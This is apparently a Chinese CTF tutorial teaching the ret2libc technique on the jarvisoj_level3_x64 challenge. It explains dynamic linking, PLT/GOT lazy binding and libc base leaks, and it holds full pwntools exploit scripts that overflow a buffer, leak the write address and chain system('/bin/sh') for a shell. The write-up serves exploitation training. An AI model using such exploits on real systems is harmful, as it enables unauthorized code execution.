








**retlibc**是可能初学者遇到的第一个坎？不难，但是如果不理解动态链接和延迟绑定就难以理解为什么要这么做。
这篇笔记比较简单，具体的动态链接和延迟绑定我们放在ret2dlresolve中再来说明

# 问题的提出

我们来看这样一道题
题目来源:https://buuoj.cn/challenges#jarvisoj_level3_x64



main函数东西，我们来看vulnerable_function函数，buf大小为0x80字节，而我们可以读入0x200字节，这里有很大的覆盖空间可供我们操作。
但这题与之前的题有所不同，可以发现，这题没有system函数，也没有/bin/sh字符串，那么我们该怎么解决呢？

# 解决方法

重新思考我们目的，我们的最终目的就是为了得到靶机上的flag，所以我们才想着去getshell从而查看flag文件，所以我们的目标是执行system('/bin/sh')，从而拿shell

但是，这里没有system，也没有'/bin/sh'，难道我们就不能拿shell了？不，仿照之前传参的想法，既然没有system('/bin/sh')，我们就不能找一个，或者说构造一个了吗？答案是可以的，这就是我们说的ret2libc

## 动态链接与静态编译(链接)

简单来说，**静态链接就是将多个目标文件，链接并复制静态库中的函数与数据，直接一并压缩打包在同一个可执行文件中**。随着系统中可执行文件的增加，静态链接带来的硬盘和内存空间浪费问题愈发严重，静态链接库会被重复链接整合到可执行文件中，不同静态链接的可执行文件所包含的两个相同库也会被同时装载进去。特别地，如果对标准库函数做了微小改动，都需要重新编译整个源文件，使得开发和维护更为艰难。

如果不把系统库和自己编写的代码链接到一个可执行文件，而是**分割成两个独立的模块，等到程序真正运行时，再把这两个模块进行链接**，就可以节省硬盘空间，并且虚拟内存中的一个系统库可以被多个程序共同使用，还节省了物理内存空间。这种在运行或加载时，在内存中完成链接的过程叫作**动态链接**。用于动态链接的系统库称为**共享库**（_shared libraries_），整个过程由动态链接器完成。

那么ret2libc到底是什么？我们先从程序说起，cpu只能执行指令集里面的操作，只能理解机器码，而汇编语言是一种助记符，帮助人们记忆机器语言。注意，cpu的指令集里是没有read,write等等各种函数的，这些函数的底层都是由许多条汇编指令构成的，那么这些函数是在哪里被定义的？简单的说，这些函数都是在一个叫libc文件里被定义的，这是一个库文件，里面存放的是程序运行时用到的函数等。程序运行时，libc文件也会被加载到内存里

在gdb里我们可以看到，程序运行时，会将所用到的库文件一同加载到内存中。

由于系统是将整个文件映射到内存中，那么所有的库函数都会在内存里，一旦我们知道了函数的地址，跳转过去就可以运行函数了
而函数的地址是有一定规则生成的，由于ASLR(地址随机化)的保护，库函数的地址是由系统随机分配的一个基址加上偏移构成的


我们在ida里打开一个libc.so.6文件，可以看到每个函数，或者说汇编代码，它的位置是固定的，不会改变的，我们把这个数值叫做偏移
也就是说，只要我知道了此时的libc库的基址，就知道了所有libc库函数的地址。
回到最开始的问题，我们便有了思路，如果我们能知道此时libc的基址，就能知道system函数的地址，而且，libc里面也是有'/bin/sh'字符串的，所以就能构造出system('/bin/sh')了

那么libc基址如何泄漏呢？

## 延迟绑定

假设一个函数用到了很多的外部库函数，那么如果每次运行时首先先去定位函数的地址，那么程序在开始时就会花费很多时间，对此，人们提出的解决方法就是延迟绑定
简单的说，就是只有当要用到这个函数的时候，才去定位这个函数在内存中的真实地址
这里就要用到两个东西，plt表和got表

ELF 文件通过**过程链接表**（_Procedure Linkage Table, PLT_）和 GOT 的配合来实现延迟绑定，每个被调用的库函数均有一组对应的 PLT 和 GOT。GOT 属于纯数据结构，只存储地址；而 PLT 则属于代码逻辑，负责处理复杂的动态解析流程，避免污染 GOT。
简单的说，plt表是用来进行逻辑处理和解析定位地址的，而got表就是一个纯粹的数组，用来存放真实的地址

当程序第一次需要运行某个函数时，比方说我们在ida看到call printf，首先会去到程序的plt表，然后去到对应函数的got表处存放的地址，由于一开始got表处没有函数的真实地址，它一开始存放的是plt表的开头处，然后跳到开头处后会解析定位函数所对应的真实地址，并将其填充到got表上，然后将控制权移交给函数。
当第二次要用到函数时，还是先去plt表，此时got表上有函数的真实地址了，于是就直接去到函数的真实地址处开始执行了

现在，我们知道了got表会存放函数的真实地址，那么我们只需用输出函数打印出某个函数的真实地址，接收后减去对应的偏移，我们就得到了基址了，pwntools里提供了很多函数供我们来完成
现在我们的基本思路是，泄露libc基址，计算出system和/bin/sh的地址，构造payload发送即可

# 解决问题

基本的思路有了，我们来解决这道题


这里我们只能选用write作为输出函数，read(0, buf, 0x200u) 已经帮我们设置好了rdx寄存器，我们只需要控制rdi,rsi即可。
```python
from pwn import *
p=process('./pwn')
context.arch='amd64'
elf=ELF('./pwn') #我们习惯用小写的elf作为变量表示程序，大写的ELF是一个pwntools的函数，其作用是加载elf文件
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6') #由于是在本地跑，我这里选择本地的libc，如果打远端，要加载远端的libc，在终端输入ldd (文件名) 会显示程序依赖的libc库的路径
'''如果题目给了libc文件，可以写成libc=ELF('./libc.so.6')'''
pop_rdi_ret=0x4006b3  
pop_rsi_r15=0x4006b1  
payload=flat(  
    b'a'*0x80,
    0x600CC8,
    pop_rdi_ret, 
    1,
    pop_rsi_r15,
    elf.got['write'], #很好理解，pwntools会自动解析成elf文件中write函数的got表的地址
    0,
    elf.plt['write'],#plt表的地址
    0x40061A,#main函数的地址
)  
p.send(payload)
p.interactive()
```
我们来运行下这个脚本，看看会输出什么

64位程序的地址是8字节，但是其高两字节是空的，或者说是由\x00填充的，其真正有效字节为6字节，我们一般只需要接收6字节即可。这里这么多\x00是因为write要输出200字节，但是没这么多内容输出，于是就用的\x00填充
pwntools里有很多接收函数，如recv,recvn,recvline，具体用法自行ai
这里注意的是，用pwntools的函数接收会从一开始的输出接收，也就是说，这里首先我们要“过滤”掉‘Input:’
```python
from pwn import *
p=process('./pwn')
context.arch='amd64'
elf=ELF('./pwn') #我们习惯用小写的elf作为变量表示程序，大写的ELF是一个pwntools的函数，其作用是加载elf文件
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6') #由于是在本地跑，我这里选择本地的libc，如果打远端，要加载远端的libc，在终端输入ldd (文件名) 会显示程序依赖的libc库的路径
pop_rdi_ret=0x4006b3  
pop_rsi_r15=0x4006b1  
payload=flat(  
    b'a'*0x80,
    0x600CC8,
    pop_rdi_ret, 
    1,
    pop_rsi_r15,
    elf.got['write'], #很好理解，pwntools会自动解析成elf文件中write函数的got表的地址
    0,
    elf.plt['write'],#plt表的地址
    0x40061A,#main函数的地址
)  
p.send(payload)
p.recvline().strip()  
raw=p.recvn(6)  
leak_addr=int.from_bytes(raw,'little')  #推荐使用int.from_bytes来转换而不是u64
success(hex(leak_addr))  #在屏幕上输出地址
libc_addr=leak_addr - libc.symbols['write']  #得到libc基址
success(hex(libc_addr))  
system_addr=libc_addr + libc.symbols['system']  
binsh_addr=libc_addr + next(libc.search(b'/bin/sh\x00')) #在libc中寻找'/bin/sh\x00'字符串
p.interactive()
```
我们来看下运行结果

正确的libc基址后三位一定是0，当然后5位是0也是正确的libc基址，但凡你的libc基址的后3位不是0，说明这个地址不是libc基址
现在我们有了system地址和/bin/sh地址，这又回到了我们之前的传参了，只是与以往不同，我们在payload放的是system的真实地址，而不是在程序中找的一个call system的地址
同理'/bin/sh'这个字符串也是我们在libc中找的，而不是用程序里的
下面给出完整的exp
```python
from pwn import *  
p=process('./pwn')  
context.arch='amd64'  
elf=ELF('./pwn')  
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')  
#
pop_rdi_ret=0x4006b3  
pop_rsi_r15=0x4006b1  
payload=flat(  
    b'a'*0x80,  
    0x600CC8,  
    pop_rdi_ret,  
    1,  
    pop_rsi_r15,  
    elf.got['write'],  
    0,  
    elf.plt['write'],  
    0x40061A,  
)  
p.sendline(payload)  
p.recvline().strip()  
raw=p.recvn(6)  
leak_addr=int.from_bytes(raw,'little')  
success(hex(leak_addr))  
libc_addr=leak_addr - libc.symbols['write']  #这里的写法和用libcsearcher的写法不一样
success(hex(libc_addr))  
system_addr=libc_addr + libc.symbols['system']  
binsh_addr=libc_addr + next(libc.search(b'/bin/sh\x00'))  
ret=0x400499  
payload=flat(  
    b'a'*0x80,  
    0x600CC8,  
    pop_rdi_ret,  
    binsh_addr,  
    system_addr,  
)  
p.sendline(payload)  
p.interactive()
```

成功getshell
# 总结
ret2libc是一种重要的手法，因为libc里面有很多函数，一旦知道了libc基址，我们就知道了很多函数的地址，libc里面也有很多可用gadgets，这样我们几乎可以调用很多函数。后面我们遇到的很多题其实都是围绕着怎么泄露libc地址而进行的。当然，有些程序开启了沙箱，这是使得我们不能执行system('/bin/sh')来getshell，我们就需要通过其他的方法来获取flag，而这可能会需要很多函数的配合，而一旦我们知道了libc地址，就可以调用这些函数


# Tips

不建议使用LibcSearcher， LibcSearcher的原理是用函数名+后三位的偏移去数据库查的，而大部分比赛都会给libc版本
即使没给，也不建议使用
推荐使用如下网站
https://libc.blukat.me/
https://libc.rip/
输入设置函数，输入函数的地址，网站会自动识别后三位并进行查找，可以分两次泄露不同函数的地址，再放到网站查询(即使不是同一次泄露也行，因为后三位的偏移是不会变的)
好处是由于LibcSearcher一次只用一个去寻找，因此有可能会查出很多种可能，而我们把libc下载到本地则避免了这种问题